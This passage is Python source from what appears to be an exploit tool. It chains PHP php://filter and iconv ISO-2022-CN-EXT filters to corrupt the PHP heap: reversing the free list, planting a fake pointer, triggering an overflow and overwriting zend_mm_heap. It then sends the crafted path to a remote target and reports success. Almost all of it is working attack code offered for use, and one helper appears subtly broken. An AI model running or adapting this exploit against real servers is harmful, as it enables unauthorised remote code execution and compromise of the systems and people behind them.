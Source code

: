```python
            "dechunk",
            "convert.iconv.L1.L1",
            
            # Step 1: Reverse FL order
            "dechunk",
            "convert.iconv.L1.L1",
            
            # Step 2: Put fake pointer and make FL order back to normal
            "dechunk",
            "convert.iconv.L1.L1",
            
            # Step 3: Trigger overflow
            "dechunk",
            "convert.iconv.UTF-8.ISO-2022-CN-EXT",
            
            # Step 4: Allocate at arbitrary address and change zend_mm_heap
            "convert.quoted-printable-decode",
            "convert.iconv.L1.L1",
        ]
        filters = "|".join(filters)
        path = f"php://filter/read={filters}/resource={resource}"

        return path

    @inform("Triggering...")
    def exploit(self) -> None:
        path = self.build_exploit_path()
        start = time.time()

        try:
            msg_print("Sending exploit...")
            print(f'PATH: {path}')

            self.remote.send_exploit(path)
        except (ConnectionError, ChunkedEncodingError):
            pass
        
        msg_print()
        
        if not self.sleep:
            msg_print("    [b white on black] EXPLOIT [/][b white on green] SUCCESS [/] [i](probably)[/]")
        elif start + self.sleep <= time.time():
            msg_print("    [b white on black] EXPLOIT [/][b white on green] SUCCESS [/]")
        else:
            # Wrong heap, maybe? If the exploited suggested others, use them!
            msg_print("    [b white on black] EXPLOIT [/][b white on red] FAILURE [/]")
        
        msg_print()


def compress(data) -> bytes:
    """Returns data suitable for `zlib.inflate`.
    """
    # Remove 2-byte header and 4-byte checksum
    return zlib.compress(data, 9)[2:-4]


def b64(data: bytes, misalign=True) -> bytes:
    payload = base64.encode(data)
    if not misalign and payload.endswith("="):
        raise ValueError(f"Misaligned: {data}")
    return payload.encode()
```